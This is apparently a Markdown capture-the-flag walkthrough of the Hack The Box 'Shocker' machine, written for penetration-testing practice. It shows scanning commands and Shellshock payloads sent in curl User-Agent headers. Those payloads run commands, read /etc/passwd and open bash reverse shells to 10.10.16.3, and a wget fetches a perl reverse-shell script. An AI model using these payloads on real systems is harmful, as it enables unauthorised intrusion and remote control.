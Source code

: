 # Shocker Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA shocker 10.10.10.56``

![image](https://user-images.githubusercontent.com/123066149/226357310-160d9812-0522-4479-9126-c9dfb936d848.png)

``nmap --script vuln 10.10.10.56``

![image](https://user-images.githubusercontent.com/123066149/226357364-2f1a6ef5-cb76-45aa-9dbe-1aa2565ce426.png)

``nikto -host http://10.10.10.56``

![image](https://user-images.githubusercontent.com/123066149/226357618-4e8827c0-36ac-4262-8d96-6f39bb768a17.png)

# ${{\color{purple}Initial Foothold}}\ $

``dirb http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/CGIs.txt -t 50``

![image](https://user-images.githubusercontent.com/123066149/226358323-1477f05a-58f6-4cb4-a09b-0f501c1fab3c.png)

``gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30 -x cgi,php,html``

![image](https://user-images.githubusercontent.com/123066149/226358774-9ff94040-b230-4b9f-80cd-4192b8cadbb0.png)

``gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x sh``

![image](https://user-images.githubusercontent.com/123066149/226358987-9f981b40-2e78-425f-b55c-8e6cc4501907.png)

# ${{\color{purple}Exploitation}}\ $

https://www.sevenlayers.com/index.php/125-exploiting-shellshock

``curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://10.10.10.56/cgi-bin/user.sh``

![image](https://user-images.githubusercontent.com/123066149/226359725-99a8e315-f5cd-4c97-a665-d35ee18b483c.png)

``curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/cat /etc/passwd" http://10.10.10.56/cgi-bin/user.sh``

![image](https://user-images.githubusercontent.com/123066149/226359889-1dfca83c-36ec-414c-8a28-9d8e413639c8.png)

``curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.16.3/4444 0>&1' http://10.10.10.56/cgi-bin/user.sh``

![image](https://user-images.githubusercontent.com/123066149/226360049-1b28e5c0-6da6-45b4-b402-8f3cd40f2f6a.png)

``tcpdump -i tun0 icmp``

![image](https://user-images.githubusercontent.com/123066149/226360977-54c45416-dd99-4277-a907-282565f43809.png)

``() { :; }; /bin/bash -i >& /dev/tcp/10.10.16.3/8888 0>&1``

![image](https://user-images.githubusercontent.com/123066149/226362205-e35b0eb5-850a-43c9-8981-381bd14795b5.png)


# ${{\color{purple}Privilege Escalation}}\ $

``sudo -l``

![image](https://user-images.githubusercontent.com/123066149/226363790-6c615050-105d-452c-99fd-d788831cab73.png)

``wget http://10.10.16.3:80/perl_pentest_monkey.pl && chmod +x perl_pentest_monkey.pl``

![image](https://user-images.githubusercontent.com/123066149/226364007-ae3f7cf5-6268-44e3-8ee2-49e646b769cd.png)

![image](https://user-images.githubusercontent.com/123066149/226364266-decade33-b8d1-4b2a-a900-04efe2f7cd1e.png)

![image](https://user-images.githubusercontent.com/123066149/226364474-3b850292-695e-42c4-a7db-0081e34dc9bf.png)


